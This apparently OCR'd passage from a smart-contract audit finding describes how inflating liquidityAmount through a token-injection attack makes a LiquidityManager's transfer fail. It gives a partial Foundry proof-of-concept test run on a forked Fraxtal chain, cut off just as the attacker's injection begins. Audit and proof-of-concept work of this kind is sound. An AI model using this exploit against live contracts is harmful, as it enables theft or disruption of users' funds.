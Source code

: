 Now, if the `liquidityAmount` has been inflated by performing the attack, this line will fail if the contract doesn't have enough balance:

```solidity
agentToken.safeTransfer(address(fraxswapPair), liquidityAmount);
```

---

To demonstrate this vulnerability, here's a coded POC that you can add to `MoveLiquidityTest.sol`.  
Run it via:

```bash
forge test --match-test test_MoveLiquidity_TokenInjection -vvv
```

```solidity
function test_MoveLiquidity_TokenInjection() public {
    // Set up the fork and environment.
    setUpFraxtal(12_918_968);

    // agent deployer
    address dev = address(0x1234);
    // attacker
    address attacker = 0x00160baF84b3D2014837cc12e838ea399f8b8478;

    // deal to dev a lot of currency tokens to operate
    deal(address(currencyToken), dev, 30_000_000e18);
    
    // Set target liquidity parameters in the factory.
    uint256 targetCCYLiquidity = 6_100_000e18;
    
    // Deploy a new AgentFactory. (Assume currencyToken is already set up.)
    factory = new AgentFactory(currencyToken, 0);
    factory.setAgentBytecode(type(Agent).creationCode);
    factory.setGovenerBytecode(type(TokenGovernor).creationCode);
    factory.setLiquidityManagerBytecode(type(LiquidityManager).creationCode);

    // For testing migration quickly, set a low target liquidity.
    factory.setTargetCCYLiquidity(1000);
    // Set an initial price, e.g. 0.1 IQ per agent token.
    factory.setInitialPrice(0.1e18);

    // --- Deploy agent and all relevant contract ---
    
    // Simulate normal user activity to push the pool toward the target.
    vm.startPrank(dev);

    // Approve and create the agent
    currencyToken.approve(address(factory), type(uint256).max);

    // dev directly buys enough so that the target liquidity is satisfied
    agent = factory.createAgent("ExploitAgent", "EXP", "https://exploit.com", targetCCYLiquidity);
    token = agent.token();
    
    // Retrieve the LiquidityManager and the BootstrapPool.
    manager = LiquidityManager(factory.agentManager(address(agent)));
    bootstrapPool = manager.bootstrapPool();
    
    // ensure bootstrap pool is initialized
    require(address(bootstrapPool) != address(0), "BootstrapPool not initialized");
    
    vm.stopPrank();

    // --- Attacker Manipulates the LiquidityManager by Injecting Currency Tokens ---
    // Here the attacker directly transfers extra currency tokens into the LiquidityManager.

```